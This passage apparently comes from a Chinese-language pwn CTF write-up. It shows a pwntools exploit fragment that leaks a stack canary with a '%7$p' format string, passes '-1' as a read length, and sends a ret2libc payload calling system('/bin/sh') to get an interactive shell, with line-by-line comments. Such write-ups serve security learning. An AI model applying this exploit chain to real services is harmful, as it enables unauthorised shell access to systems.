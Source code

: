 ```python
libc_base = puts_addr - libc.sym['puts']  
  
# 计算system函数的地址和/bin/sh字符串的地址  
system_addr = libc_base + libc.sym["system"]  
str_bin_sh = libc_base + next(libc.search("/bin/sh\x00"))  
  
# 重复前面的步骤，准备发送第二个攻击载荷  
target.ru("How many bytes do you want me to read? ")  
target.sl(b'-1')  
target.sla("Ok, sounds good. What's your name?\n", b'%7$p')  
  
# 构造第二个攻击载荷  
# 这个载荷包括填充、栈地址、三个1、system函数的地址、1（可能是作为system函数的参数count），以及/bin/sh字符串的地址  
payload_2 = b'a'*0x20 + p32(cannary) + p32(1)*3 + p32(system_addr) + p32(1) + p32(str_bin_sh)  
  
# 发送第二个攻击载荷  
target.sla("me what you got!\n", payload_2)  
  
# 尝试获取远程目标的交互式shell  
target.inter()  

```

注释拿ai写的(个人懒得写bushi)

![1730032758607](images/2024/2024-10-27-pwn-wp/1730032758607.png)

## retret
